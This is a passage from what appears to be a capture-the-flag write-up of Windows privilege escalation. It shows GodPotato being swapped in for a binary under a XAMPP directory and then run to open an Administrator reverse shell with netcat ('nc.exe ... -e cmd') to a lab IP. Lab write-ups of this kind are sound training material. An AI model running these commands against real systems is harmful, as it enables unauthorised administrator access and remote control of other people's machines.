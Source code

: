 Now I noticed one `.exe` file on this xampp directory so lets use `UACME-Akagi64.exe` this file as our `GodPotato-NET4.exe` file →

![Untitled](Stealth/Untitled%209.png)

```powershell
SHELL> mv UACME-Akagi64.exe UACME-Akagi64.exe.bak
```
{: .nolineno}
{: .nolineno}

Now lets replace or Godpotato with this executable file →

![Untitled](Stealth/Untitled%2010.png)

Now lets have a Administrator reverse shell →

```powershell
UACME-Akagi64.exe -cmd "cmd /c C:\xampp\htdocs\nc.exe 10.8.83.156 49666 -e cmd"
```
{: .nolineno}
{: .nolineno}

![Untitled](Stealth/Untitled%2011.png)

I am Administrator Now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }